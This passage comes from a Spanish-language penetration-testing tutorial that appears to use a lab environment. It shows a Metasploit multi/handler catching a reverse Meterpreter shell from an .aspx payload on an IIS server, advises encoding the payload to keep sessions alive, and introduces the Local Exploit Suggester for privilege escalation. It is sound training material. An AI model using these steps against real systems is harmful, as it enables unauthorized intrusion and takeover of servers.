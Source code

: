 ```r
msf6 exploit(multi/handler) > set LPORT 1337

LPORT => 1337


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:1337 
```

---

## Executing the Payload

Ahora podemos activar el payload `.aspx` en el servicio web. Hacerlo no cargará absolutamente nada visualmente en la página, pero al mirar hacia atrás en nuestro módulo `multi/handler`, habríamos recibido una conexión. Debemos asegurarnos de que nuestro archivo `.aspx` no contenga HTML, por lo que solo veremos una página web en blanco. Sin embargo, el payload se ejecuta en segundo plano de todos modos.


### MSF - Meterpreter Shell

```r
<...SNIP...>
[*] Started reverse TCP handler on 10.10.14.5:1337 

[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.5:1337 -> 10.10.10.5:49157) at 2020-08-28 16:33:14 +0000


meterpreter > getuid

Server username: IIS APPPOOL\Web


meterpreter > 

[*] 10.10.10.5 - Meterpreter session 1 closed.  Reason: Died
```

Si la sesión de Meterpreter muere con demasiada frecuencia, podemos considerar codificarla para evitar errores durante la ejecución. Podemos elegir cualquier codificador viable, y finalmente mejorará nuestras posibilidades de éxito.

---

## Local Exploit Suggester

Como consejo, hay un módulo llamado `Local Exploit Suggester`. Usaremos este módulo para este ejemplo, ya que la shell de Meterpreter aterrizó en el usuario `IIS APPPOOL\Web`, que naturalmente no tiene muchos permisos. Además, ejecutar el comando `sysinfo` nos muestra que el sistema es de arquitectura x86, lo que nos da aún más razones para confiar en el Local Exploit Suggester.
